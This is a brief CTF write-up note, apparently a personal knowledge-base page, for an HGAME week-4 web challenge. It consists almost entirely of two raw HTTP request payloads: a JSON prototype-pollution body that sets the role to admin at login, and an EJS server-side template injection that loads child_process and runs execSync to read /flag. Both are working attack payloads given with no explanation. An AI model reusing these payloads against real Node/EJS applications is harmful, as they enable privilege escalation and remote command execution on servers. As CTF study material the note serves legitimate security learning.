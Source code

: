 tags:: EJS, [[CTF/JS/原型链污染]], [[CTF/SSTI/EJS]]

-
- # 原型链污染
	- [[CTF/JS/原型链污染]]
	- payload
		- ```http
		  POST /login HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 88
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/json
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/login
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  {"username":"admin","password":"idontknow","constructor":{"prototype":{"role":"admin"}}}
		  ```
- # EJS SSTI
	- payload
		- ```http
		  POST / HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 99
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  diary=<%25%3dglobal.process.mainModule.constructor._load('child_process').execSync("cat+/flag")%25>
		  ```